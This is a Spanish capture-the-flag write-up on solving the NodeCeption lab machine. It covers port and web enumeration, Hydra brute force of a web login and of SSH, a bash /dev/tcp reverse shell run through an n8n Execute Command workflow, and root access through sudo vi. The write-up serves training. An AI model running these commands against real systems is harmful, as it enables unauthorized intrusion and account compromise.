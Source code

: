 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TheHackersLabs
  - Easy
  - HTTP
  - Hydra
  - ReverseShell
  - Sudo
  - SSH
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#Burp Suite|Burp Suite]]
	- [[#Explotación#Hydra|Hydra]]
	- [[#Explotación#Reverse Shell|Reverse Shell]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]
		- [[#Escalada de Privilegios#Sudo|Sudo]]
		- [[#Escalada de Privilegios#Hydra|Hydra]]
		- [[#Escalada de Privilegios#SSH|SSH]]

---
# Resolviendo la máquina NodeCeption

>En esta publicación, comparto cómo revolví la máquina **NodeCeption** de [The Hackers Labs](https://labs.thehackerslabs.com/machine/118).

![](Screenshots/Pasted%20image%2020251026084159.png)

---
## Enumeración
### Ping

`ping -c 1 192.168.1.184`

![](Screenshots/Pasted%20image%2020251026085149.png)

*TTL=63/64* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -sS -vvv -n -Pn 192.168.1.184 -oG allPorts`

![](Screenshots/Pasted%20image%2020251026085310.png)

`nmap -p22,5678,8765 -sCV 192.168.1.184 -oN targeted`

![](Screenshots/Pasted%20image%2020251026085347.png)
![](Screenshots/Pasted%20image%2020251026085408.png)
### HTTP

`http://192.168.1.184:8765/`

![](Screenshots/Pasted%20image%2020251026085533.png)

![](Screenshots/Pasted%20image%2020251026085608.png)

Se encuentra el usuario `usuario@maildelctf.com`.
#### Fuzzing Web

`gobuster dir -u http://192.168.1.184:8765 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,html,txt -t 64`

![](Screenshots/Pasted%20image%2020251026085944.png)

`192.168.1.184:8765/login.php`

![](Screenshots/Pasted%20image%2020251026090143.png)

---
## Explotación
### Burp Suite

Para poder realizar fuerza bruta, es necesario ver como viaje la petición **POST**.

![](Screenshots/Pasted%20image%2020251026090645.png)
### Hydra

Se procede a realizar fuerza bruta.

`hydra -l usuario@maildelctf.com -P /usr/share/wordlists/rockyou.txt -s 8765 192.168.1.184 http-post-form "/login.php:email=usuario@maildelctf.com&password=^PASS^:Credenciales incorrectas."`

![](Screenshots/Pasted%20image%2020251026091054.png)

Se obtiene la contraseña del usuario `usuario@maildelctf.com`.

Se inicia sesión en la web.

![](Screenshots/Pasted%20image%2020251026091149.png)
### Reverse Shell

Se accede a *n8n*.

`http://192.168.1.184:5678`

![](Screenshots/Pasted%20image%2020251026091320.png)

Se inicia sesión con el usuario y la contraseña obtenidos anteriormente.

![](Screenshots/Pasted%20image%2020251026091410.png)

Se crea un nuevo *Workflow*, para realizar la *Reverse Shell*.

Para poder ejecutar un comando se busca: `Execute Command`.

![](Screenshots/Pasted%20image%2020251026091551.png)

![](Screenshots/Pasted%20image%2020251026091611.png)

Nos ponemos en escucha por el puerto `1234` para recibir la *Reverse Shell*.

`nc -nlvp 1234 `

Se ejecuta el comando `bash -c 'exec bash -i &>/dev/tcp/192.168.1.127/1234 <&1'` para lanzarla.

![](Screenshots/Pasted%20image%2020251026092422.png)
### Escalada de Privilegios
#### Sudo

`sudo -l`

![](Screenshots/Pasted%20image%2020251026092722.png)

Se realiza una búsqueda del binario: `a` en [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#sudo).

![](Screenshots/Pasted%20image%2020251026093447.png)

`sudo vi -c ':!/bin/sh' /dev/null`

![](Screenshots/Pasted%20image%2020251026093838.png)

Es necesario meter la contraseña de un usuario.

Se averigua el usuario: `cat /etc/passwd`.

![](Screenshots/Pasted%20image%2020251026093950.png)
#### Hydra

Al saber el usuario `thl` se procede a realizar fuerza bruta para saber la contraseña y conectarnos mediante **SSH**.

`hydra -l thl -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.184 -t 64`

![](Screenshots/Pasted%20image%2020251026094900.png)

Se encuentra la contraseña para el usuario `thl`.
#### SSH

Nos conectamos al servicio **SSH**.

`ssh thl@192.168.1.184`

![](Screenshots/Pasted%20image%2020251026095039.png)

`sudo vi -c ':!/bin/sh' /dev/null`

![](Screenshots/Pasted%20image%2020251026095149.png)

---